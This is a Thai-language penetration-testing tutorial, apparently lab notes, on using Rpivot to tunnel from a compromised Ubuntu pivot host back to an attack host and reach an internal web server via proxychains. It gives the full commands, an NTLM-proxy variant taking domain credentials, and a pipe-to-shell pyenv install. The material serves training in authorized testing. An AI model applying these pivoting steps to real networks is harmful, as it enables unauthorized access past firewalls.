

# Web Server Pivoting with Rpivot

## ภาพรวมของ Rpivot

**Rpivot** คือ reverse SOCKS proxy tool ที่เขียนด้วย Python สำหรับสร้าง SOCKS tunneling โดยมีจุดเด่นคือ:
- ทำงานแบบ **reverse connection** (client เชื่อมต่อออกไปหา server)
- Bind เครื่องที่อยู่ใน corporate network ให้เชื่อมต่อกับ external server
- Expose port ของ client ไปยัง server-side

---

## สถานการณ์ในตัวอย่าง

### โครงสร้างเครือข่าย

```
Attack Host (10.10.15.5)
    ↓
External Network (10.129.110.0)
    ↓
Ubuntu Server (Pivot) - 10.129.15.50, 172.16.5.129
    ↓
Internal Network (172.16.5.0/23)
    ↓
Web Server (Target) - 172.16.5.135:80
```

**เป้าหมาย**: เข้าถึง web server ที่อยู่บน internal network (172.16.5.135:80) ผ่าน Ubuntu pivot host

---

## ส่วนที่ 1: การติดตั้งและเตรียม Rpivot

### 1.1 Clone Rpivot Repository

```bash
git clone https://github.com/klsecservices/rpivot.git
```

### 1.2 ติดตั้ง Python 2.7

**วิธีที่ 1: ติดตั้งโดยตรง**
```bash
sudo apt-get install python2.7
```

**วิธีที่ 2: ใช้ pyenv (แนะนำถ้าต้องการจัดการหลาย Python version)**

```bash
# ติดตั้ง pyenv
curl https://pyenv.run | bash

# เพิ่มใน .bashrc
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc

# โหลด configuration ใหม่
source ~/.bashrc

# ติดตั้ง Python 2.7
pyenv install 2.7

# เปลี่ยนไปใช้ Python 2.7
pyenv shell 2.7
```

**หมายเหตุ**: Rpivot ต้องใช้ Python 2.7 โดยเฉพาะ

---

## ส่วนที่ 2: การตั้งค่า Rpivot Server (บน Attack Host)

### 2.1 เริ่มต้น SOCKS Proxy Server

```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

**อธิบายพารามิเตอร์**:
- `--proxy-port 9050`: port ที่ SOCKS proxy จะ listen (สำหรับ proxychains)
- `--server-port 9999`: port ที่รอรับ connection จาก client
- `--server-ip 0.0.0.0`: listen บน network interfaces ทั้งหมด

**สิ่งที่เกิดขึ้น**:
- Server เปิด listener 2 ports:
  1. Port 9999 - รอ rpivot client เชื่อมต่อเข้ามา
  2. Port 9050 - SOCKS proxy สำหรับ tools อื่นๆ (เช่น proxychains)

---

## ส่วนที่ 3: การตั้งค่า Rpivot Client (บน Pivot Target)

### 3.1 ส่ง Rpivot ไปยัง Target

```bash
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

**วัตถุประสงค์**: Copy folder rpivot ทั้งหมดไปยัง Ubuntu server ที่เรา compromise ได้แล้ว

### 3.2 รัน Rpivot Client

```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

**อธิบาย**:
- `--server-ip`: IP ของ attack host (server.py ที่รันอยู่)
- `--server-port`: port ที่ server กำลัง listen (9999)

**Output ที่คาดหวัง**:
```
Backconnecting to server 10.10.14.18 port 9999
```

### 3.3 ตรวจสอบการเชื่อมต่อบน Server

บน Attack Host ควรเห็น:
```
New connection from host 10.129.202.64, source port 35226
```

**อธิบาย**: 
- Ubuntu pivot (10.129.202.64) เชื่อมต่อมาสำเร็จ
- Rpivot tunnel ถูกสร้างขึ้นแล้ว

---

## ส่วนที่ 4: การใช้งาน Proxychains

### 4.1 แก้ไขไฟล์ proxychains.conf

เพิ่มบรรทัดนี้ในไฟล์ `/etc/proxychains.conf`:
```
socks4  127.0.0.1 9050
```

**อธิบาย**: บอกให้ proxychains ส่ง traffic ผ่าน SOCKS proxy ที่ localhost:9050

### 4.2 เข้าถึง Web Server ผ่าน Proxychains

```bash
proxychains firefox-esr 172.16.5.135:80
```

**สิ่งที่เกิดขึ้น**:
1. Firefox พยายามเชื่อมต่อไปที่ 172.16.5.135:80
2. Proxychains สกัด traffic แล้วส่งไปที่ 127.0.0.1:9050
3. Rpivot server (port 9050) รับ traffic แล้วส่งผ่าน tunnel
4. Rpivot client บน Ubuntu pivot รับ traffic
5. Ubuntu ส่ง request ไปที่ 172.16.5.135:80 (web server)
6. Response กลับมาทางเดียวกัน

**ผลลัพธ์**: เห็นหน้า Apache2 Ubuntu Default Page ใน Firefox



---

## ส่วนที่ 5: การใช้งานกับ NTLM Proxy

ในองค์กรบางแห่งมี HTTP proxy ที่ใช้ NTLM authentication กับ Domain Controller ในกรณีนี้ client ต้อง authenticate ผ่าน proxy ก่อน

### 5.1 รัน Client ด้วย NTLM Authentication

```bash
python client.py --server-ip <IPaddressofTargetWebServer> \
                 --server-port 8080 \
                 --ntlm-proxy-ip <IPaddressofProxy> \
                 --ntlm-proxy-port 8081 \
                 --domain <nameofWindowsDomain> \
                 --username <username> \
                 --password <password>
```

**อธิบายพารามิเตอร์**:
- `--ntlm-proxy-ip`: IP ของ HTTP proxy ที่ใช้ NTLM
- `--ntlm-proxy-port`: port ของ HTTP proxy
- `--domain`: ชื่อ Windows Domain
- `--username`: username สำหรับ authentication
- `--password`: password สำหรับ authentication

**สถานการณ์ที่ใช้**:
- องค์กรบังคับให้ traffic ออกภายนอกต้องผ่าน HTTP proxy
- Proxy ใช้ NTLM authentication กับ Active Directory
- Client ไม่สามารถเชื่อมต่อตรงออก internet ได้

---

## การทำงานของ Rpivot อย่างละเอียด

### Architecture Overview

```
[Attack Host]
    Server Process
    ├─ Port 9999 (Client Connection)
    └─ Port 9050 (SOCKS Proxy)
         ↑
         | Rpivot Tunnel (Encrypted)
         |
         ↓
[Pivot Host - Ubuntu]
    Client Process
    ├─ Connects to Server:9999
    └─ Forwards to Internal Network
         ↓
[Target - Web Server]
    172.16.5.135:80
```

### Data Flow

**Request Flow:**
```
Firefox → Proxychains → SOCKS (9050) → Rpivot Server
    → Tunnel → Rpivot Client → Internal Network → Web Server
```

**Response Flow:**
```
Web Server → Rpivot Client → Tunnel → Rpivot Server
    → SOCKS (9050) → Proxychains → Firefox
```

---

## ข้อดีและข้อเสียของ Rpivot

### ✅ ข้อดี

1. **Reverse Connection**
   - Client เชื่อมต่อออกไป (bypass firewall ได้ง่ายกว่า)
   - ไม่ต้องเปิด port บน pivot host

2. **Written in Python**
   - ติดตั้งง่าย
   - ทำงานได้ทั้ง Linux และ Windows

3. **SOCKS Proxy**
   - ใช้ได้กับ tools หลากหลาย
   - ไม่ต้อง configure แต่ละ tool

4. **NTLM Support**
   - รองรับ corporate proxy environments
   - สามารถผ่าน authentication barriers

### ❌ ข้อเสีย

1. **ต้องใช้ Python 2.7**
   - Python 2.7 หยุด support แล้ว
   - บาง system อาจไม่มีติดตั้ง

2. **Performance**
   - อาจช้ากว่า native SSH tunneling
   - เหมาะกับ web browsing มากกว่า bulk data transfer

3. **ต้อง Transfer Tool**
   - ต้องส่งไฟล์ไปยัง pivot host
   - อาจถูก detect โดย antivirus

---


---

## Troubleshooting Tips

### ถ้า Connection ไม่สำเร็จ

1. **ตรวจสอบ Firewall**
   ```bash
   # บน attack host
   sudo ufw status
   sudo iptables -L
   ```

2. **ตรวจสอบ Process**
   ```bash
   # Server ต้องรันอยู่
   ps aux | grep server.py
   
   # ตรวจสอบ port
   netstat -tulpn | grep 9050
   netstat -tulpn | grep 9999
   ```

3. **ตรวจสอบ Network Connectivity**
   ```bash
   # จาก pivot host
   telnet <attack-host-ip> 9999
   ```

### ถ้า Proxychains ไม่ทำงาน

1. **ตรวจสอบ Config**
   ```bash
   cat /etc/proxychains.conf | grep -v "^#" | grep -v "^$"
   ```

2. **ทดสอบด้วย curl**
   ```bash
   proxychains curl http://172.16.5.135
   ```

3. **ดู Verbose Output**
   ```bash
   proxychains -v firefox-esr 172.16.5.135:80
   ```

---

## สรุปขั้นตอนการใช้งาน

### Quick Setup Guide

**1. บน Attack Host:**
```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

**2. ส่ง Tool ไปยัง Pivot:**
```bash
scp -r rpivot ubuntu@<target-ip>:/home/ubuntu/
```

**3. บน Pivot Host:**
```bash
python2.7 client.py --server-ip <attack-host-ip> --server-port 9999
```

**4. ใช้งาน:**
```bash
proxychains firefox-esr <internal-target-ip>:<port>
```

---

## สรุปแนวคิดสำคัญ

**Rpivot เหมาะสำหรับ**:
- เข้าถึง web applications บน internal network
- สถานการณ์ที่มี corporate proxy กั้น
- ต้องการ reverse connection (bypass firewall)
- มี Python 2.7 พร้อมใช้งาน

**จุดเด่นหลัก**:
- ใช้งานง่าย setup รวดเร็ว
- Reverse connection ทะลุ firewall ได้ดี
- รองรับ NTLM authentication

**ข้อควรระวัง**:
- Python 2.7 (legacy)
- ต้อง transfer files ไปยัง target
- อาจมี performance overhead

Rpivot เป็นอีกหนึ่ง pivoting tool ที่มีประโยชน์มากในการทดสอบเจาะระบบ โดยเฉพาะเมื่อต้องการเข้าถึง web services บน internal network แบบ reverse connection!